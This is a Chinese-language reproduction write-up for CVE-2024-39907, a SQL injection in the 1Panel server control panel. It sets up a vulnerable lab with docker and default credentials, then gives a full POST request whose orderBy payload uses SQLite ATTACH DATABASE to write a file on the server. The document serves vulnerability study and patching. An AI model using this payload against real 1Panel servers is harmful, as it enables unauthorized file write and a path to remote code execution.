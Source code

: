 # 1Panel 控制面板 SQL 注入漏洞 CVE-2024-39907

## 漏洞描述

1Panel 是一款基于 Web 的 Linux 服务器管理控制面板，提供服务器管理的图形化界面。

CVE-2024-39907 是 1Panel 控制面板中存在的多个 SQL 注入漏洞集合，这些漏洞存在于 1Panel 的多个接口中，部分注入点由于过滤不善，可能导致攻击者实现任意文件写入，最终达成远程命令执行 (RCE)。该漏洞影响 1Panel v1.10.9-lts 及更早版本，已在 v1.10.12-lts 版本中得到修复。

参考链接:

- https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2024/CVE-2024-39907.yaml
- https://github.com/1Panel-dev/1Panel/security/advisories/GHSA-5grx-v727-qmq6
- https://hub.docker.com/r/moelin/1panel

## 漏洞影响

```
1Panel ≤ v1.10.9-lts
```

## 环境搭建

Vulhub 执行如下命令启动一个有漏洞的 1Panel v1.10.10-lts：

```
docker compose up -d
```

环境启动后，访问 `http://localhost:10086/entrance`，使用以下默认凭据登录：

- 用户名：`1panel`
- 密码：`1panel_password`

![](images/1Panel%20控制面板%20SQL%20注入漏洞%20CVE-2024-39907/image-20250915155104479.png)

![](images/1Panel%20控制面板%20SQL%20注入漏洞%20CVE-2024-39907/image-20250915155139693.png)

## 漏洞复现

登录 1Panel 控制面板后，漏洞存在于 `/api/v1/hosts/command/search` 接口中，`orderBy` 参数缺乏适当的输入验证，导致 SQL 注入攻击。

发送以下恶意 POST 请求来利用该漏洞：

```
POST /api/v1/hosts/command/search HTTP/1.1
Host: localhost:10086
Connection: keep-alive
Content-Length: 0
Accept-Language: zh
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36
Cookie: psession=<YOUR_PSESSION_HERE>
Origin: http://localhost:10086
Referer: http://localhost:10086/
Content-Type: application/json
Accept-Encoding: gzip, deflate, br, zstd

{
  "page":1,
  "pageSize":10,
  "groupID":0,
  "orderBy":"3;ATTACH DATABASE '/tmp/randstr.txt' AS test;create TABLE test.exp (data text);create TABLE test.exp (data text);drop table test.exp;",
  "order":"ascending",
  "name":"a"
}
```

`orderBy` 参数中的恶意负载利用 SQLite 的 `ATTACH DATABASE` 功能在服务器文件系统上创建任意文件，演示了成功的 SQL 注入攻击。处理请求时，1Panel 后端会执行注入的 SQL 命令而不进行验证，确认漏洞存在且可被利用。

![](images/1Panel%20控制面板%20SQL%20注入漏洞%20CVE-2024-39907/image-20250915155921094.png)

成功通过 `ATTACH DATABASE` 创建文件 `/tmp/randstr.txt`：

![](images/1Panel%20控制面板%20SQL%20注入漏洞%20CVE-2024-39907/image-20250915155647921.png)

## 漏洞修复

升级至 1.10.12-tls 及以上版本。

